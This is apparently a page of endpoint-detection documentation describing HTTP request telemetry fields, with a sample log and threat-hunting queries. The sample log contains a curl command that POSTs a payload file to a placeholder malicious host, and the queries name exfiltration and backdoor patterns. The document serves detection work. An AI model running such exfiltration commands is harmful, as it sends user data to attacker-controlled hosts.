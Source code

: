 
### 3. Important Parameter Description

| Parameter | Description | Platforms Affected |
|---|---|---|
| HttpPath | The path part of the HTTP request URL. | Linux, macOS |
| HttpHost | The host (domain name or IP address) to which the HTTP request was sent. | Linux, macOS |
| HttpMethod | The HTTP method used for the request (e.g., GET, POST, PUT). | Linux, macOS |
| RemoteAddressIP4 | The IPv4 address of the remote host to which the connection was made. | Linux, macOS |
| RemotePort | The remote port number used for the connection. | Linux, macOS |
| ImageFileName | The full path to an executable (PE) file. The context of this field provides more information as to its meaning. For ProcessRollup2 events, this is the full path to the main executable for the created process. | Linux, macOS |
| CommandLine | The command line used to create this process. May be empty in some circumstances. | Linux, macOS |

---

### 4. Sample Log Example

```json
{
  "HttpPath": "/api/v1/data",
  "HttpHost": "malicious.example.com",
  "HttpMethod": "POST",
  "RemoteAddressIP4": "192.0.2.100",
  "RemotePort": "443",
  "ImageFileName": "/usr/bin/curl",
  "CommandLine": "curl -X POST [https://malicious.example.com/api/v1/data](https://malicious.example.com/api/v1/data) -d @payload.json"
}
```
---

### 5. Example Queries
```xql
// Find all HTTP POST requests to a specific host
event_simpleName=HttpRequest HttpMethod=HTTP_METHOD_POST HttpHost="malicious.example.com"

// Identify HTTP requests originating from a suspicious image file
event_simpleName=HttpRequest ImageFileName="/usr/local/bin/backdoor_app"

// Find HTTP requests to a specific IP address on a given port
event_simpleName=HttpRequest RemoteAddressIP4="192.0.2.100" RemotePort="8080"

// Search for HTTP requests with specific keywords in the path or command line
event_simpleName=HttpRequest HttpPath="*exfil*" OR CommandLine="*upload_data*"

// Discover HTTP requests where HttpHost contains an unusual domain pattern
event_simpleName=HttpRequest HttpHost="*.xyz" OR HttpHost="*.top"
```
---## ImgExtensionFileWritten Table: File Written Event

